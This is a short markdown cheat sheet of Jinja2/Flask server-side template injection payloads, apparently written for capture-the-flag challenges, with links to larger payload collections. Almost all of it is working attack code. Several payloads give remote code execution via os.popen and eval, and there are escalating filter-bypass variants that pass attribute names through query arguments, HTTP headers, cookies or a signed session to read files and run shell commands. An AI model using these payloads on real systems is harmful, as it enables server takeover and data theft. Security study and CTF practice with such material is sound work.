# Jinja2 & Flask

## The simplest payloads to achieve RCE

```py
{{cycler.__init__.__globals__["os"].popen("ls").read()}}
{{self.__init__.__globals__.__builtins__["eval"]("set(open(''/flag'))")}}
{{().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["eval"]("set(open('/flag'))")}}
```

## No dots, no attr, no |, no 'flag', no subclasses, no globals, no `__class__`, no mro

```py
# http://localhost:1337/?c=__class__&s=__subclasses__&b=__globals__&bb=__builtins__&cmd=set(open(%22/flag.txt%22))

{{(()[request["args"]["c"]][request["args"]["c"]][request["args"]["s"]](()[request["args"]["c"]][request["args"]["c"]])[0]["register"])[request["args"]["b"]][request["args"]["bb"]]["eval"](request["args"]["cmd"])}}
```

## No dots, no attr, no |, no 'flag', no subclasses, no globals, no args, no mro, no `__class__`, idk what to put anymore

```http
GET /?q={{(()[request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["s"]](()[request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]][request["headers"]["c"]])[0]["register"])[request["headers"]["b"]][request["headers"]["bb"]]["eval"](request["headers"]["cmd"])}} HTTP/1.1
Host: localhost:1337
c:__class__
s:__subclasses__
b:__globals__
bb:__builtins__
cmd:set(open("/flag"))
Connection: close
```
(You can also use cookies)

## No dots, no attr, no {{, no _, no [, with known app.secret_key

```py
{%with a=session|first%}{%print(request|attr("application")|attr(a%2b"globals"%2ba))|attr(a%2b"getitem"+%2ba)("json")|attr("codecs")|attr("sys")|attr("modules")|attr(a%2b"getitem"+%2ba)("os")|attr("popen")("cat /*")|attr("read")()%}{%endwith%}

# session=.eJwljrsOwjAMAP8lM4Pjxq7Dz1SOH6ISMLRiQvw7QYx3uuHeZdvKtZRL2fKI81auqfczJu4-vTmqMYzBmdEcmhpxrziYwZxkKgdiSl1VOksIax1RpRmuC0qQkiFFB264Bgu6WGp3cXRAHNBmMrp6JSdVU6lh7m3hSDD6fb3OOP436o_9WT5fNWU0Sw.ZhpIWQ.OLbcuOplfe801xPDpiwJ-WC-zR4
```

Other payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

Forcing output on blind RCE: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---forcing-output-on-blind-rce
